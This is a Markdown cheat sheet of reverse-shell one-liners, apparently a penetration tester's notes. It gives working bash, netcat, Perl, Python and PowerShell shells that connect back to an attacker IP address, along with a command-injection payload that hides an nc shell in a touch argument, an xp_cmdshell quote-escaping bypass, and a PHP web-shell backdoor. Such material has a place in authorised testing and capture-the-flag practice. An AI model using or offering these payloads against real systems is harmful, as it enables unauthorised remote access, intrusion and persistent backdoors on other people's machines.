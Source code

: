 # Reverse shell scripts

## Proper working reverse shell
```
CTRL + Z -> It will run the session in the background
stty raw -echo
fg
fg
```

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Using shell
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Using Netcat
```
cmd=nc -nv 192.168.1.71 4444 -e /bin/bash  
```

## Using Perl
```
perl -e 'use Socket;$i="192.168.1.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.32\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'
```

## Command injection reverse shell
```
touch ; nc 10.10.14.52 5555 -e /bin/bash
touch '; nc 10.10.14.52 5555 -e /bin/bash'
```

### Powershell Oneliner
For xp_cmdshell (bypassing single quote restricion by including one more single quote)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.1.1.1'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

### Upload nc.exe to windows machine and obtain reverse shell

```
nc.exe 10.10.14.6 4444 -e cmd.exe
```

### Backdoor

PHP

```
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>

Usage: http://<IP>/<filenam>?e=whoami
```
